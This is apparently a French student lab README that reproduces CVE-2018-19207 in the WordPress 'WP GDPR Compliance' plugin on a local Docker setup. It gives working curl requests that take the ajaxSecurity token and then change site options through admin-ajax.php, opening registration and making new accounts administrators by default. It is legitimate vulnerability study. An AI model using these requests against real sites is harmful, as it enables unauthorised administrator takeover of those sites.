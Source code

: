 # SDSI
Devoir 2 - Faille CVE-2018-19207

## Démarrer les containers
```
docker-compose up
```

## Configuration de wordpress
1. Se connecter au site via `http://localhost:8000/`
2. Créer le compte administrateur (comme indiqué sur le site)
```Attention : la verification par email est obligatoire```
3. Activer le plugin "WP GDPR Compliance" via `http://localhost:8000/wp-admin/plugins.php` puis "Activate"

## PoC (WIP)

### 1. Se connecter sur le home du site

- Requête GET à `http://localhost:8000/` pour obtenir le token `ajaxSecurity` utilisé par le plugin (copier les quelques caractères composant le token)

```
curl -X GET http://localhost:8000/ | grep "ajaxSecurity"
```

### 2. Autoriser la création de nouveaux utilisateurs

Si on demande à s'enregistrer sur le site via la page `http://localhost:8000/wp-login.php?action=register`, on peut voir le message d'erreur suivant "User registration is currently not allowed."

- Requête POST à `http://localhost:8000/wp-admin/admin-ajax.php`
- Paramètres: `action=wpgdprc_process_action&security=AJAXSECURITYTOKEN&data ={"type": "save_setting", "append": "false", "option": "users_can_register", "value": "1"}`

```
curl -H "Content-Type: application/x-www-form-urlencoded" -d "action=wpgdprc_process_action&security=AJAXSECURITYTOKEN&data=%7B%22type%22%3A%22save_setting%22%2C%22append%22%3Afalse%2C%22option%22%3A%22users_can_register%22%2C%22value%22%3A%221%22%7D" -X POST http://localhost:8000/wp-admin/admin-ajax.php
```

En accédant à nouveau à `http://localhost:8000/wp-login.php?action=register`,
on peut désormais créer un nouveau compte sur le site.

### 3. Obtenir les droits administateur

On souhaite desormais que les nouveaux comptes créés aient les droits administrateur par défaut.

- Requête POST à `http://localhost:8000/wp-admin/admin-ajax.php`
- Paramètres: `action=wpgdprc_process_action&security=AJAXSECURITYTOKEN&data ={"type": "save_setting", "append": "false","option": "default_role", "value": "administrator"}`

```
curl -H "Content-Type: application/x-www-form-urlencoded" -d "action=wpgdprc_process_action&security=AJAXSECURYTOKEN&data=%7B%22type%22%3A%22save_setting%22%2C%22append%22%3Afalse%2C%22option%22%3A%22default_role%22%2C%22value%22%3A%22administrator%22%7D" -X POST http://localhost:8000/wp-admin/admin-ajax.php
```

### 4. Créer un compte via `http://localhost:8000/wp-login.php?action=register`, puis se connecter via `http://localhost:8000/wp-login.php` après vérification de l'adresse email.

Pour aller plus vite, vous pouvez vous connecter grâce au compte admin initial. Dans l'onglet "Users", vous pourrez voir le nouveau compte que vous avez créé avec le rôle "Administrator".

Vous pouvez aussi vérifier dans l'onglet "Settings" > "General" les paramètres "Membership" (la case "Anyone can register" devrait être cochée) et "New User Default Role" (à "Administrator").
